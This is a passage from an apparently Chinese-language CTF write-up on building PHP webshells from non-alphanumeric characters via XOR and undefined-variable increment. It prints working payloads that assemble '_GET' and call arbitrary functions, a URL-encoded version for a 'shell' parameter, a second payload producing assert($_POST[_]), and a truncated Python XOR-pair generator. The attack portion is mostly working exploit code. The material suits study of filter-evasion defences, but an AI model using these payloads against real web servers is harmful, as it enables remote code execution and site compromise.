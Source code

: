 分析一下：

* $_++ ：对变量名为_的变量进行自增操作，在PHP中未定义的变量默认值为Null,null==false==0,因此可以在不使用任何数字的情况下,通过对未定义变量的自增操作来得到一个数字。
* 异或操作，`#^|` , # 二进制为 00100011 ，| 二进制为 01111100 ，异或之后就变成了 01011111 ，变为ascii 就是 95 ，也就是下划线，其他类似。

开始构造payload

```
?shell=
@$_++;
$__=("#"^"|");
$__.=("."^"~");
$__.=("/"^"`");
$__.=("|"^"/");
$__.=("{"^"/");
${$__}[!$_](${$__}[$_]);
```

因为含有特殊字符，所以需要进行url编码才可以正常使用

	?shell=%40%24_%2b%2b%3b%0a%20%20%20%24__%3d(%22%23%22%5e%22%7c%22)%3b%0a%20%20%20%24__.%3d(%22.%22%5e%22~%22)%3b%0a%20%20%20%24__.%3d(%22%2f%22%5e%22%60%22)%3b%0a%20%20%20%24__.%3d(%22%7c%22%5e%22%2f%22)%3b%0a%20%20%20%24__.%3d(%22%7b%22%5e%22%2f%22)%3b%0a%20%20%20%24%7b%24__%7d%5b!%24_%5d(%24%7b%24__%7d%5b%24_%5d)%3b

![wCODQ1.png](https://s1.ax1x.com/2020/09/03/wCODQ1.png)

ph师傅的也是同样的原理：

```
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);

```

但是这种exp代码过长，如果限制了长度就就很尴尬了。但如果题目条件限制只能使用异或这种方法来构造webshell，也是可以缩短长度的，可以让字符一起异或使用

![wVInPg.png](https://s1.ax1x.com/2020/09/05/wVInPg.png)




其实原理都一样，按照顺序进行异或，从而得到相应的字符,就拿GET来说，可以组成下面的payload

![wVIjQs.png](https://s1.ax1x.com/2020/09/05/wVIjQs.png)


这里又与模板出现了冲突。。。。。所以用图片来代替吧。。。。太男了扒。

![wCzn8e.png](https://s1.ax1x.com/2020/09/03/wCzn8e.png)

这里从网上找到一个异或脚本：

```
#来源: 国光
#文章作者: 国光
#文章链接: https://www.sqlsec.com/2020/07/shell.html#toc-heading-24
#咳咳又想白嫖文章？本文章著作权归作者所有，任何形式的转载都请注明出处。
 
import string 
from urllib.parse import quote 
keys = list(range(65)) + list(range(91,97)) + list(range(123,127)) 
results = [] 
for i in keys: 
    for j in keys: 
        asscii_number = i^j 
        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122): 
```
